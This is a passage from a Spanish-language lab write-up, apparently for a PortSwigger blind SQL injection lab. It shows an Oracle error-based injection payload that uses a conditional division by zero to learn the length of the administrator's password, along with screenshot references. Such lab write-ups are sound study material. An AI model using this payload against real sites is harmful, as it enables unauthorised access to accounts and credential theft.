 ![](/assets/img/ps-writeup-sqli/ps-lab12_17.png)

El codigo de estado `200 "Ok"` me indica que la contraseña no tiene una longitud de caracteres menor O igual a 21 (`>=21`).

```sql
'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrator' and length(password)>=21)||'
```

![](/assets/img/ps-writeup-sqli/ps-lab12_18.png)
